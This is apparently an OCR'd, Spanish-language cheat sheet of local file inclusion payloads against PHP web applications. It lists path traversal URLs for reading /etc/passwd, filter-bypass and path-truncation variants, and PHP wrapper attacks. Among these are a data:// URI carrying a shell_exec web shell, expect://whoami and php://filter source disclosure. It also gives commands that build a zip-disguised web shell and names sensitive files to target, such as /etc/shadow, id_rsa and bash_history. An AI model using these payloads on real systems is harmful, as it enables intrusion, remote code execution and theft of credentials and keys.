 # _Url-Encode:_
    http://ex.com/index.php?page=%252e%252e%252fetc%252fpasswd

# _Bypass filtro:_
    http://ex.com/index.php?page=..///////..////..//////etc/passwd
    http://ex.com/index.php?page=….//….//….//….//etc/passwd

# _Path Truncation_
    http://ex.com/index.php?page=../../../../../../../../../etc/passwd..\.\.\.\.\.\.\.\.\.\.\[ADD MORE]\.\.
    http://ex.com/index.php?page=../../../../[…]../../../../../etc/passwd

# _LFI Wrappers:_
    #Php incorpora una serie de envolturas para distintos protocolos tipo URL para trabajar junto con funciones del sistema, son los llamados wrappers.

    #PHP Wrapper expect://
        http://ex.com/index.php?page=expect://whoami

    #PHP Wrapper data://
        http://www.ex.com/index.php?page=data:text/plain;,<?php echo shell_exec($_GET['cmd']);?>

    #PHP Wrapper filter://
        http://ex.com/index.php?page=php://filter/read=string.rot13/resource=index.php
        http://ex.com/index.php?page=php://filter/convert.base64-encode/resource=index.php

    #PHP Wrapper zip://
        echo "<?php \$_GET['param1'](\$_GET['param2']); ?>" > shell.php
        zip -0 payload.zip payload.php;   
        mv payload.zip shell.jpg;    
        rm payload.php
        http://ex.com/index.php?page=zip://shell.jpg%23payload.php

# _Archivos Importante a Revisar en Linux_

    /etc/issue 
    /etc/motd 
    /etc/passwd 
    /etc/group 
    /etc/resolv.conf
    /etc/shadow
    /home/[USERNAME]/.bash_history o .profile
    ~/.bash_history o .profile
    $USER/.bash_history o .profile
    /root/.bash_history o .profile
    /etc/mtab  
    /etc/inetd.conf  
    /var/log/dmessage
    .htaccess
    config.php
    authorized_keys
    id_rsa
    id_rsa.keystore
    id_rsa.pub
    known_hosts
    /etc/httpd/logs/acces_log 
    /etc/httpd/logs/error_log 
    /var/www/logs/access_log 
    /var/www/logs/access.log 
    /usr/local/apache/logs/access_log 